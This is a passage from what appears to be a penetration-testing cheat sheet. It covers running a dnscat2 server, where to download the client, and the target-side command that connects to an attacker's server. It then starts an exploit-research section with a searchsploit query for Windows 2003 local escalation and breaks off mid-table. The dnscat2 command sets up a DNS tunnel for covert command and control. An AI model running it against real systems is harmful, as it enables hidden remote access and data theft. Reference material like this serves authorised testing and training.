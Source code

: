 <p>
Run dnscat2:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>ruby ./dnscat2.rb
dnscat2&gt; New session established: 1422
dnscat2&gt; session -i 1422
</code></pre>
:::
::::

<p>
Target Machine:
</p>
<p>
https://downloads.skullsecurity.org/dnscat2/
https://github.com/lukebaggett/dnscat2-powershell/
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>dnscat --host &lt;dnscat server_ip&gt;
</code></pre>
:::
::::

<h2 id="bof--exploit">
BOF / Exploit
</h2>
<h2 id="exploit-research">
Exploit Research
</h2>
<p>
Find exploits for enumerated hosts / services.
</p>

::: mobile-side-scroller
<table>
<thead>
<tr>
<th>
Command
</th>
<th>
Description
</th>
</tr>
</thead>
<tbody>

    <tr>
      <td>
        <p><code>searchsploit windows 2003 | grep -i local</code></p>
      </td>
      <td>
            <p>Search exploit-db for exploit, in this example windows 2003 + local esc</p>
      </td>
    </tr>
